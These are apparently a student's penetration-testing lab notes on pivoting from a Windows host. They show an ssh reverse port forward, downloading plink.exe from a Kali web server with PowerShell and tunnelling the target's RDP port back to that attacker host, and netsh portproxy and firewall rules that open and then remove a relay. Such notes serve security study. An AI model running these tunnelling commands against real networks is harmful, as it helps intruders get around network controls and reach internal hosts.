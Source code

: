 # ssh.exe

from winfows machine

```
ssh -N -R 9998 kali@192.168.118.4
```

basically the same reverse port forwarding as with linux

# Plink

comes from Putty - is the command line tool

``` 
sudo cp /usr/share/windows-resources/binaries/plink.exe .

python3 -m http.server 80
```

```
powershell wget -Uri http://192.168.118.4/plink.exe -OutFile C:\Windows\Temp\plink.exe

C:\Windows\Temp\plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:9833:127.0.0.1:3389 192.168.118.4
```

`-l` is the login or username

`-pw` is the password

# Netsh

port forwarding

```
netsh interface portproxy add v4tov4 listenport=2222 listenaddress=192.168.50.64 connectport=22 connectaddress=10.4.50.215
```

and open the firewall

```
netsh advfirewall firewall add rule name="port_forward_ssh_2222" protocol=TCP dir=in localip=192.168.50.64 localport=2222 action=allow
```

afterwards

```
netsh advfirewall firewall delete rule name="port_forward_ssh_2222"
```

```
netsh interface portproxy del v4tov4 listenport=2222 listenaddress=192.168.50.64
```